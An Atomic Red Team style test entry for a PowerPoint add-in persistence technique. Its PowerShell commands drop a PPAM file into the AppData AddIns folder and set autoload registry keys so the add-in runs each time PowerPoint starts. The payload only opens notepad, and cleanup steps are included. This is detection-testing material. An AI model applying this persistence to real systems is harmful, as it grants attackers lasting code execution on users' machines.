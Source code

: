 
<br/>
<br/>

## Atomic Test #5 - Persistent Code Execution Via PowerPoint VBA Add-in File (PPAM)
Creates a PowerPoint VBA Add-in file (PPAM) which runs automatically when PowerPoint is started
The sample PPA provided launches the notepad as a proof-of-concept for persistent execution from Office.

**Supported Platforms:** Windows


**auto_generated_guid:** f89e58f9-2b49-423b-ac95-1f3e7cfd8277






#### Attack Commands: Run with `powershell`! 


```powershell
Copy "PathToAtomicsFolder\T1137.006\bin\Addins\PptVBAaddin.ppam" "$env:APPDATA\Microsoft\Addins\notepad.ppam"
$ver = (New-Object -COMObject "PowerPoint.Application").version
$ExcelRegPath="HKCU:\Software\Microsoft\Office\$Ver\PowerPoint\AddIns\notepad"
New-Item -type Directory $ExcelRegPath -Force | Out-Null
New-ItemProperty $ExcelRegPath "Autoload" -value "1" -propertyType DWORD  | Out-Null
New-ItemProperty $ExcelRegPath "Path" -value "notepad.ppam" -propertyType string | Out-Null
Stop-Process -Name "PowerPnt" -ErrorAction Ignore
Start-Process "PowerPnt"
```

#### Cleanup Commands:
```powershell
$ver = (New-Object -COMObject "PowerPoint.Application").version
Remove-Item "HKCU:\Software\Microsoft\Office\$Ver\PowerPoint\AddIns\notepad" -ErrorAction Ignore
Stop-Process -Name "notepad","PowerPnt" -ErrorAction Ignore
Start-Sleep 3
Remove-Item "$env:APPDATA\Microsoft\AddIns\notepad.ppam"  -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Excel must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "PowerPoint.Application" | Out-Null
  Stop-Process -Name "PowerPnt"
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft PowerPoint manually to meet this requirement"
```
##### Description: PPAM file must exist on disk at specified location
##### Check Prereq Commands:
```powershell
if (Test-Path "PathToAtomicsFolder\T1137.006\bin\Addins\PptVBAaddin.ppam") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\T1137.006\bin\Addins\" -Force | Out-Null
```